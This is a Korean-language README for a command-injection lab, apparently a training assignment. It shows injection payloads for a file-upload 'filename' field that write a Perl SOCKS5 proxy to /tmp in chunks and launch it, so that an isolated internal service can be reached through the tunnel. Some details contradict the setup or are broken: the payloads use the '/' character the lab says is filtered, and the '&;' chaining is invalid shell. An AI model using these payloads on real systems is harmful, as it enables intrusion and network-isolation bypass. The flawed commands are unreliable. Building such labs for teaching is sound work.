 # SOCKS5 Proxy via Command Injection Challenge

이 프로젝트는 Command Injection 취약점을 이용하여 Perl로 작성된 SOCKS5 proxy 서버를 실행하고, 내부 네트워크의 서비스에 접근하는 보안 과제입니다.

## 환경 설명

### Docker Compose 환경
- **web**: Apache Tomcat 9 기반 웹 서버 (포트 8080)
- **internal_web**: Flask 기반 내부 검증 서버 (포트 5000)
- **네트워크**: Docker bridge 네트워크로 격리

### 제약 조건
1. **취약점 위치**: 파일 업로드 시 `multipart/form-data`의 `filename` 파라미터
2. **문자 필터링**: `filename`에서 `/`, `\` 문자 필터링
3. **길이 제한**: `filename` 50바이트 미만
4. **명령어 제한**: `perl`만 사용 가능 (base64, wget, curl, nc, python 없음)
5. **네트워크 제한**: 외부 네트워크 차단, 내부 Docker 네트워크만 허용
6. **권한 제한**: `tomcat_user` 권한 (non-root)
7. **웹셸 차단**: JSP 파일 실행 차단

## 공격 흐름

### 1. Command Injection 취약점 확인
```bash
# 파일 업로드 시 filename 파라미터에 명령어 삽입
filename: ';sleep 5;echo '
```

### 2. SOCKS5 Proxy 코드 생성
- Perl로 작성된 최소한의 SOCKS5 proxy 서버
- 127.0.0.1:1080에서 리스닝
- 내부 서비스(`internal_web:5000`)로 트래픽 전달

### 3. Command Injection을 통한 SOCKS5 실행 (Chunked 방식)
```bash
# 페이로드 구조 (여러 번의 요청으로 나누어 전송)
# 1단계: 파일 생성
filename: ';echo "#!/usr/bin/perl" > /tmp/socks.pl;echo '

# 2단계: 코드 조각들 추가
filename: ';echo "use IO::Socket::INET;" >> /tmp/socks.pl;echo '
filename: ';echo "$s=IO::Socket::INET->new..." >> /tmp/socks.pl;echo '
# ... (여러 조각으로 나누어 전송)

# 3단계: 실행
filename: ';chmod +x /tmp/socks.pl && /tmp/socks.pl &;echo '
```

### 4. SOCKS5 Proxy를 통한 내부 서비스 접근
```bash
# Host PC에서 실행
curl --socks5 127.0.0.1:1080 http://internal_web:5000/
```

## 사용 방법

### 1. 환경 실행
```bash
# Docker Compose로 환경 실행
docker-compose up -d

# 환경 확인
curl http://localhost:8080/
```

### 2. SOCKS5 Proxy 실행
```bash
# Python 스크립트로 자동 실행 (Chunked 방식)
python3 chunked_exploit.py

# 또는 기존 방식
python3 simple_exploit.py

# 또는 수동으로 페이로드 생성 및 실행
# (exploit.py 참조)
```

### 3. SOCKS5 Proxy 테스트
```bash
# 기본 테스트
curl --socks5 127.0.0.1:1080 http://internal_web:5000/

# 예상 결과
# Congratulation! You have successfully accessed the internal service through SOCKS5 proxy!
```

### 4. 다양한 프로토콜 지원 확인
```bash
# SSH 연결 (예시)
ssh -o ProxyCommand='nc -X 5 -x 127.0.0.1:1080 %h %p' user@internal_web

# 데이터베이스 연결 (예시)
mysql -h internal_web -P 3306 --proxy-protocol=socks5://127.0.0.1:1080
```

## 파일 구조

```
bob-perl-tunnel-assignment/
├── socks.pl              # 완전한 SOCKS5 proxy 구현
├── socks_minimal.pl      # 최소한의 SOCKS5 proxy (Command Injection용)
├── chunked_exploit.py    # Chunked 방식 자동화 공격 스크립트 (권장)
├── simple_exploit.py     # 기존 자동화된 공격 스크립트
├── exploit.py           # 상세한 공격 스크립트
├── docker-compose.yml   # 환경 설정
├── Dockerfile          # 웹 서버 이미지
├── entrypoint.sh       # 컨테이너 시작 스크립트
└── README.md           # 이 파일
```

## 기술적 세부사항

### SOCKS5 Protocol 구현
- **버전**: SOCKS5 (RFC 1928)
- **인증**: No authentication required
- **명령**: CONNECT only
- **주소 타입**: IPv4, Domain name 지원

### Command Injection 우회 기법
- **Chunked 전송**: 긴 페이로드를 여러 조각으로 나누어 전송
- **파일 생성**: `echo` 명령어로 조각 단위로 파일 생성
- **명령어 체이닝**: `&&` 연산자 사용
- **백그라운드 실행**: `&` 연산자로 데몬화

### 네트워크 격리 우회
- **Bind Shell**: 외부 연결 대신 내부 포트 바인딩
- **Port Forwarding**: 로컬 포트를 내부 서비스로 포워딩
- **SOCKS5 Proxy**: 다양한 프로토콜 지원

## 보안 의의

이 과제는 다음과 같은 보안 개념을 다룹니다:

1. **Command Injection**: 사용자 입력 검증 부족
2. **Network Tunneling**: 격리된 네트워크 우회
3. **Privilege Escalation**: 제한된 권한에서의 기능 확장
4. **Protocol Implementation**: SOCKS5 프로토콜 구현
5. **Defense Evasion**: 필터링 및 제약 조건 우회

## 주의사항

- 이 코드는 교육 목적으로만 사용하세요
- 실제 시스템에서 무단 사용 시 법적 문제가 발생할 수 있습니다
- 보안 연구 및 테스트 환경에서만 실행하세요
